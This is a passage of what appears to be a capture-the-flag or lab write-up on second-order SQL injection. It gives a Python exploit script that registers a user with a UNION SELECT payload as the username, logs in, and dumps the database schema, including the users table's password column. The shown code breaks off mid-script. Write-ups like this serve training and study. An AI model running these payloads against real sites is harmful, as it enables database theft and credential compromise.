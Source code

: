 ```python
        print(Fore.RED + "Usage: python3 sqli_exploit.py http://target/")

```

We get:

```python
python3 sqli_exploit.py 'http://10.201.101.141:8000/'
[*] Target: http://10.201.101.141:8000/
[*] Using injection: ' union select 1,(select group_concat(TABLE_NAME,":",COLUMN_NAME,"
") from Information_Schema.COLUMNS where TABLE_SCHEMA = 'website'),3,4-- -                                                                                                                                                                  
[+] Sending registration with injection payload...
[+] Logging in with injected user...
[+] Triggering SQLi through text box post-login...
[+] SQLi successful! Dumped data:

There is only 1 word users:email
,users:id                                                                                                                                                                                                                                   
,users:password                                                                                                                                                                                                                             
,users:username                                                                                                                                                                                                                             
.
```


Nice, we got passwords and usernames here, we can get them, let's modify our exploit one last time:

```python
import requests
import sys
import random
import string
import re
from colorama import init, Fore, Style

# Initialize colorama
init(autoreset=True)

def sqli(url, injection):
    s = requests.Session()
    N = 7
    email = ''.join(random.choices(string.ascii_uppercase + string.digits, k=N))
    
    register_data = {
        "username": injection,
        "password": "password",
        "email": str(email) + "@test.com"
    }

    register_url = url + "/register"
    print(Fore.YELLOW + f"[+] Sending registration with injection payload...")
    register = s.post(register_url, data=register_data)

    login_data = {
        "username": injection,
        "password": "password"
    }

    login_url = url + "/login"
```